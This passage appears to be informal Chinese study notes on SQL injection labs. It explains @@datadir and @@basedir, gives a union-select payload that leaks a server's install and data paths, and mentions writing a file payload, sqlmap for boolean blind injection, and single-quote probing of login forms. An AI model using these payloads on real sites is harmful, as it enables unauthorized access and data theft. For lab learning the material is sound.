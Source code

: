 ![](img/1.png)

当这里要获取到网站的在系统中的具体路径（绝对路径）

> 首先介绍两个可以说是函数，还是变量的东西(a君:淦)
```sql
@@datadir 读取数据库路径
@@basedir MYSQL 获取安装路径
```
```sql
1') union select 1,@@basedir,@@datadir %23
```

![](img/2.png)
文件不能覆盖，输入payload

![](img/3.png)
如果是在c盘等需要管理员权限的，建议梦里做注入。


## **[布尔型单引号GET盲注](https://blog.csdn.net/sdb5858874/article/details/80656144)**
A君：布尔型就是T(TRUE)F(false)boys

建议sqlmap跑跑 太费时间了


## **对于登录界面的sql注入**

![](img/4.png)

类似于这种登录界面都可以，在登录中输入个单引号康康有没有什么报错啊直接报sql代码的`(ps,反正我是没见过.)`A君：你嗦你🐎呢。

